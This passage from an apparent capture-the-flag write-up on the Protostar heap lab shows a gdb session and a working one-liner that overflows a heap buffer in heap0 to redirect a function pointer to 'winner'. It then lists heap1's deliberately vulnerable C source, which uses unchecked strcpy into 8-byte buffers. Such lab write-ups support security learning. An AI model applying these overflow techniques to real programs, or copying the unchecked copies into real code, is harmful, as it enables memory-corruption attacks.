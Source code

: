 ```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ("A" * 72)
Starting program: /opt/protostar/bin/heap0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
data is at 0x804a008, fp is at 0x804a050

Breakpoint 1, main (argc=2, argv=0xbffff7f4) at heap0/heap0.c:38
38	in heap0/heap0.c
(gdb) x/22x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x08048400	0x00000000
```

Just run the script with 72 "A" and the address of `winner` (`\x64\x84\x04\x08`)

```
user@protostar:/opt/protostar/bin$ ./heap0  $(python -c 'print("A"*72 + "\x64\x84\x04\x08")')
data is at 0x804a008, fp is at 0x804a050
level passed
```

#### `heap1`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```
